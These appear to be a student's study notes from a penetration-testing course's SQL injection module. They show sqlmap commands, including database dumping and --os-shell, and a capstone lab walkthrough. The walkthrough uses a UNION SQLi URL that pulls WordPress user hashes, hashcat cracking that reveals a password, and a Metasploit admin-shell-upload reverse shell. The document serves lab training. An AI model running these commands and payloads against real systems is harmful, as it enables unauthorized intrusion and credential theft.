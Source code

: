 
#### Automating the Attack
- [sqlmap](http://sqlmap.org/) can identify and exploit SQLi vulns against various database engines.
- Examples:
	- `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user`
		- -u: URL
		- -p: test parameter
	- `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump`
		- Dump entire database
		- Does this by taking advantage of time-based SQLi vulnerability, so the process of dumping the whole database is quite slow.
	- `--os-shell` gives us an interactive database shell, but if it relies on blind time-based SQLi, it will be slow to use. Using this parameter with UNION-based SQLi affords a better user experience.
	- `sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"`
		- `-r`: post.txt contains a post request (saved using either Burp or mitmproxy)
- **Q4 - Capstone Lab**
	- The hint bot in discord gives the following hints. Sub bullets are my notes.
	- 1) Visit the website and add alvida-eatery.org to your hosts file.
	- 2) Analyze the site with tools like Wappalyzer or WhatWeb to identify the CMS (WordPress).
		- Not strictly necessary to use an analyzer - after adding alvida-eatery.org to your /etc/hosts file and visiting the website, you'll see clues on the webpage that it is wordpress.
	- 3) Use WPScan to enumerate plugins/themes, searching for known vulnerabilities.
		- This is annoying that this is part of the solution because wpscan was not taught as part of the course up to this point.
		- I used this wpscan command: `wpscan --url http://alvida-eatery.org --enumerate ap,at --plugins-detection aggressive --api-token <token>`
		- I recommend piping the output to a file because there's a lot
		- Reading through the output, you'll see there is a "Unauthenticated SLQ Injection" vuln in the Perfect Survey plugin. This one only stood out among the other vulns because this question is in the SQLi Attacks module. On the final offsec exam, I imagine it'd be good to make a list of the vulnerabilities that look most severe and start there.
	- 4) Use the POC in https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad/
		- wpscan provides [this link](https://wpscan.com/vulnerability/c2f8e9b9-c044-4c45-8d17-e628e9cb5d59) in the output as a reference for the aforementioned vulnerability, which provides this information as a POC:
		- Change the link from the POC on that page to `http` and replace the domain:
			- `http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users`
			- Throw that link in a browser or do a curl request to receive json. On first glance, this just looks like random html and not helpful. If you carefully scan it though, you'll find this:
			-
				```<input
				- 5) By searching wordpress keywords in https://hashcat.net/wiki/doku.php?id=example_hashes, we will notice that wordpress hashes start with $P$ characters. You should take it into account when you are receiving the output.
				- Using the command `./hashcat.exe -a 0 -m 400 offsec_10.3.2_Q4.hash rockyou.txt` I found the password to be `hulabaloo`
				- Seems like at this point there are numerous ways to get the flag. I used msfconsole:
				- ```
				> use exploit/unix/webapp/wp_admin_shell_upload
				> set username admin
				> set password hulabaloo
				> set rhosts alvida-eatery.org
				> set lhost <my ip>
				> set lport 4444
				> run
				```
			- Note: if not sure what options to use for an exploit, enter `show options` after selecting the exploit with the `use` command
			- This gave me a metasploit shell. For there I poked around till I found `flag.tx`
		- Alternatively, it seems like another common strategy is to login to the admin portal located at the default wordpress location, then upload a "plugin" that contains a web reverse shell.